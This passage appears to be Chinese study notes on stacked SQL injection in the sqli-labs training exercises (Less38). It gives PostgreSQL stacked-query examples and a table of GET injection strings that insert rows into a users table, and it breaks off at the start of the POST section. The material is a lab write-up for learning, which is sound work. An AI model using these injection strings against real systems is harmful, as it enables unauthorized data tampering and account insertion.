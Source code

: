

 

### Oracle 数据库

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0awxjb8vmj20ss06dn6m.jpg)

 

### Postgresql 数据库 

```
(1)新建一个表 select * from user_test;create table user_data(id DATE);

(2)删除上面新建的 user_data表 select * from user_test;delete from user_data;

(3)查询数据 select * from user_test;select1,2,3;

(4)修改数据 select * from user_test;update user_test set name='modify' where name='张三 ';
```

 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0awy8lbukj20s90c7dkz.jpg)



# Less38堆叠注入(GET POST)

## 1.GET

在执行 select 时的 sql 语句为：SELECT * FROM users WHERE id='$id'LIMIT0,1 

再看数据表中的内容：可以看到 less38 已经添加

| 注入语句                                                     | 数据库语句                                           |
| ------------------------------------------------------------ | ---------------------------------------------------- |
| ?id=1';insert into users(id,username,password) values ('38','less38','hello')--+ | Insert into user(id,username,password) values(*,*,*) |
| ?id=1;insert into users(id,username,password) values ('38','less38','hello')--+ | 没有单引号                                           |
| ?id=1');insert into   users(id,username,password) values ('38','less38','hello')--+ | 有单引号和括号                                       |
| ?id=1;insert   into users(id,username,password) values ('110','less41','hello');# | 盲注     不回显  （第41关），注意分号和注释符号      |

 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ax3aojmbj211b03gjxa.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ax3e3kbcj211m03jdg6.jpg)

 

## 2.POST

Update 更新数据后，经过 mysql_real_escape_string()处理后的数据，存入到数据库当中后不会发生变化。在 select 调用的时候才能发挥作用。

所以不用考虑在更新密码处进行注入，这关和二次注入的思路是不一样的。 本关从 login.php 源代码中分析可知：
